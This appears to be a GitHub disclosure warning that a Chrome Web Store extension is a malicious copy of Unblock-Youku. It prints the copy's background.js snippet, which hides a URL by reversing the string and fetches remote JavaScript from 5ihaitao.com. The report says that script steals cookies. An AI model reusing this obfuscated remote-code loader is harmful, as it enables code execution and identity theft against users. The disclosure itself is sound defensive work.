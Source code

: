 Name: 优酷海外版

CWS ID: emmoddikhgncnaikamapbkggedoafomi

Homepage: `https://chrome.google.com/webstore/detail/%E4%BC%98%E9%85%B7%E6%B5%B7%E5%A4%96%E7%89%88/emmoddikhgncnaikamapbkggedoafomi/`

This is a malicious copy the extension Unblock-Youku (ID: pdnfnkhpgegpcingjbfihlkjeighnddk).

In its background.js file, you can find

```javascript
function chk() {
    var a = new XMLHttpRequest;
    a.onreadystatechange = function () {
        4 == a.readyState && (localStorage.updated = a.responseText)
    };
    a.open("GET", "sj.gol/gol/moc.oatiahi5.emorhc//:ptth".split("").reverse().join(""), !0);
    a.send(null)
}
```

It will download arbitrary javascript code from their server `5ihaitao.com`, and execute it on your local computers.

The current version of the log.js file is kept a record in this folder.

You can check that the log.js file actually gets and manipulates users' website cookies, which can actually steal your online indentities and leak your private and important information.
